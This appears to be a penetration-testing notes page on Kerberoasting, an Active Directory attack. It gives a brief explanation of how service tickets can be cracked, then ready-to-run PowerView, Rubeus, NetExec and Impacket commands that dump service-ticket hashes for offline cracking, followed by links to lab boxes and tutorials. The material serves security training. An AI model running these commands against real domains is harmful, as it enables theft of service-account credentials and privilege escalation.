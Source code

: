 ```yaml
---
layout:
  title:
    visible: true
  description:
    visible: false
  tableOfContents:
    visible: true
  outline:
    visible: true
  pagination:
    visible: false
---
```


# Kerberoasting

## TL;DR

Kerberoasting is an attack on the ST and [SPNs](https://learn.microsoft.com/en-us/windows/win32/ad/service-principal-names). SPNs are unique IDs that Kerberos uses to map a service instance, for example MySQL, to a service sign-in account, such as `svc_mysql`, in whose, often privileged, context the service is running. The ST is encrypted with the service's account NTLM hash, so it can potentially be cracked. **Any domain user can request a ST from the DC for any SPN account**.

<figure><img src="../../../../.gitbook/assets/kerberoasting_process.png" alt=""><figcaption><p>Figure 1: The Kerberos authentication process (image taken from <a href="https://www.optiv.com/insights/source-zero/blog/kerberos-domains-achilles-heel">here</a>).</p></figcaption></figure>

## Windows

{% tabs %}
{% tab title="PowerView" %}
```powershell
Get-DomainUser -Identity sqldev | Get-DomainSPNTicket -Format Hashcat
```
{% endtab %}

{% tab title="Rubeus" %}
{% code overflow="wrap" %}
```powershell
.\Rubeus.exe kerberoast /creduser:domain\user1 /credpassword:pass /user:targetUser /outfile:hash.txt /format:hashcat /nowrap
```
{% endcode %}
{% endtab %}
{% endtabs %}

## Linux

{% tabs %}
{% tab title="NetExec" %}
```bash
nxc ldap 192.168.0.104 -u user -p pass --kerberoasting output.txt
```
{% endtab %}

{% tab title="Impacket" %}
```bash
GetUserSPNs.py -dc-ip 172.16.5.5 DOMAIN/user -request -outputfile spns.lst
```
{% endtab %}
{% endtabs %}

## Practice

{% tabs %}
{% tab title="Active (Easy)" %}
{% content-ref url="../../../../boxes/boxes/easy/active.md" %}
[active.md](../../../../boxes/boxes/easy/active.md)
{% endcontent-ref %}
{% endtab %}

{% tab title="Sizzle (Insane)" %}
{% content-ref url="../../../../boxes/boxes/insane/sizzle.md" %}
[sizzle.md](../../../../boxes/boxes/insane/sizzle.md)
{% endcontent-ref %}
{% endtab %}
{% endtabs %}

## Resources

{% tabs %}
{% tab title="Video Tutorial" %}
{% embed url="https://www.youtube.com/watch?v=-3MxoxdzFNI" %}
Kerberoasting in 14 minutes!
{% endembed %}
{% endtab %}

{% tab title="GetUserSPNs" %}
{% embed url="https://www.youtube.com/watch?v=xH5T9-m9QXw" %}
How GetUserSPNs script work behind the scenes!
{% endembed %}
{% endtab %}

{% tab title="Tim Medin's Lecture" %}
{% embed url="https://www.youtube.com/watch?v=Jaa2LmZaNeU" %}
{% endtab %}

{% tab title="Kerberoasting" %}
{% embed url="https://adsecurity.org/?p=3458" %}
A great article detailing the Kerberoasting process.
{% endembed %}
{% endtab %}
{% endtabs %}
